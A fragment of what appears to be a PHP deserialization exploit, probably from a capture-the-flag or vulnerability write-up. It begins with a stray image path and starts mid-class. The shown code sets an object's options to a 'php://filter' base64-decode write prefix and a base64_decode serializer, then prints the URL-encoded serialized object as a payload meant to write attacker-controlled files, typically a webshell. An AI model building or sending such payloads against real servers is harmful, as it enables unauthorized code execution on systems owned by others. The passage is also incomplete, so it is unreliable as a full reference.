     $this->options['prefix']='php://filter/write=convert.base64-decode/resource=';

    $this->options['serialize']='base64_decode';

    $this->options['data_compress']=false;

  }

  

}

$a=new A();

echo urlencode(serialize($a));
```

 

 